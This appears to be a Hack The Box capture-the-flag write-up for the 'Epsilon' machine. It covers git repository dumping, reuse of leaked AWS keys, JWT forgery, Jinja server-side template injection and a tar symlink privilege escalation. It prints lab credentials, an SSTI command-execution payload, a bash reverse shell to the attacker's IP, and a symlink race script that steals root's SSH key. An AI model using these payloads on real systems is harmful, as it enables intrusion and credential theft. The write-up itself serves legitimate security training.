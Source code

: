 # [Epsilon](https://app.hackthebox.com/machines/epsilon)

```bash
nmap -p- --min-rate 10000 10.10.11.134 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.
```bash
nmap -A -sC -sV -p22,80,5000 10.10.11.134 -Pn
```

![alt text](img/image-1.png)


I add `epsilon.htb` domain record into `/etc/hosts` for this ip address.


From nmap scan result, I see that for port `80`, there's `.git` directory.


Let's dump this via [git_dumper](https://github.com/arthaud/git-dumper)

```bash
python3 git_dumper.py http://10.10.11.134/.git/ /home/kali/Desktop/webapp
```

![alt text](img/image-2.png)

Let's look at `git` history (means commits) via `git log` command.
```bash
git log --name-only --oneline
```

![alt text](img/image-3.png)


Let's commit back to `7cf92a7` commit via `git checkout` command.
```bash
git checkout 7cf92a7
```

![alt text](img/image-4.png)


From here, I can see sensitive credentials of `aws`.

AWS Access Key Id: "AQLA5M37BDN6FJP76TDC"
Aws Secret Access Key: "OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A"
Defualt Region Name: "us-east-1"
Endpoint-Url: "http://cloud.epsilong.htb"

But, we need to add this subdomain `cloud.epsilon.htb` into `/etc/hosts` file 


Let's connect into AWS via `aws configure`.

![alt text](img/image-5.png)

After connection is initiated, we can functions for specified URL via `aws lambda` command.

```bash
aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb
```

![alt text](img/image-6.png)


Let's get function `custome_shop_v1` details
```bash
aws lambda get-function --function-name=costume_shop_v1 --endpoint-url=http://cloud.epsilon.htb 
```

![alt text](img/image-7.png)

Now, we can see `Code` location, let's download.
```bash
wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
```

This is `ZIP` file, after downloading this, we make `unzip` and read this, there's `lambda_function.py` file.

![alt text](img/image-8.png)


Here, I find `secret_key` value, which I will use `Forge JWT Token`.


secret: 'RrXCv`mrNe!K!4+5`wYq'


To create JWT token, I will use `Python CLI`.
```bash
import jwt
secret="RrXCv`mrNe!K!4+5`wYq"
jwt.encode({"username":"dr4ks"}, secret, algorithm='HS256')
```

![alt text](img/image-9.png)


I add my cookie `auth`=JWT_token and browse the `/home` page.

![alt text](img/image-10.png)


I successfully authenticated as `admin` and browse the page.

![alt text](img/image-11.png)


I analyze `/order` endpoint and enumerate `custome` body parameter.

I just check `SSTI` (Server-Side Template Injection) by injecting simple calculation `{{7*7}}` and it returns `49`.

![alt text](img/image-12.png)


Let's add system command here by using native template syntax.
```bash
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

![alt text](img/image-13.png)

Let's inject `reverse shell` payload here.
```bash
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >%26 /dev/tcp/10.10.14.18/1337 0>%261"').read() }}
```

![alt text](img/image-14.png)


Hola!, I got reverse shell from port `1337`.

![alt text](img/image-15.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-16.png)


user.txt

![alt text](img/image-17.png)


For `Privilege Escalation` vector, I just upload `pspy64` into machine to analyze background jobs.

First, I open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-18.png)


Second, I download this binary into target machine via `wget` command.
```bash
wget http://10.10.14.18:8080/pspy64
```

![alt text](img/image-19.png)


Let's run this to see.


I see `backup.sh` script which runs with duration of specific time.

![alt text](img/image-20.png)


Let's read content of this script.

![alt text](img/image-21.png)


On line which `tar` binary uses `-h` option is considered for `Follow symlinks; archive and dump the files they point to.`

That's why I wrote `.sh` script that makes a link between private key (id_rsa) file of `root` user and `/opt/backups/checksum`.

```bash
#!/bin/bash
while true; do 
        if [ -e /opt/backups/checksum ]; then 
                rm -f /opt/backups/checksum
                echo "File deleted" 
                ln -s -f /root/.ssh/id_rsa /opt/backups/checksum 
                echo "Symlink created" 
                break
        fi; 
done
```


I run this script.

![alt text](img/image-22.png)


Let's look at `/var/backups/web_backups` folder and extract `.tar` files.


Then, I go to `/opt` directory and found `backups` directory.


While making extraction of this tar files, I found `app.py` file which contains sensitive credentials.

![alt text](img/image-23.png)

admin: 4d_09@fhgRTdws2


I checked this for `root` user, but doesn't work.

I find `private_key` file (id_rsa) named on `checksum` file.

![alt text](img/image-24.png)


Let's copy this and use for `authentication`.
```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.134
```

root.txt

![alt text](img/image-25.png)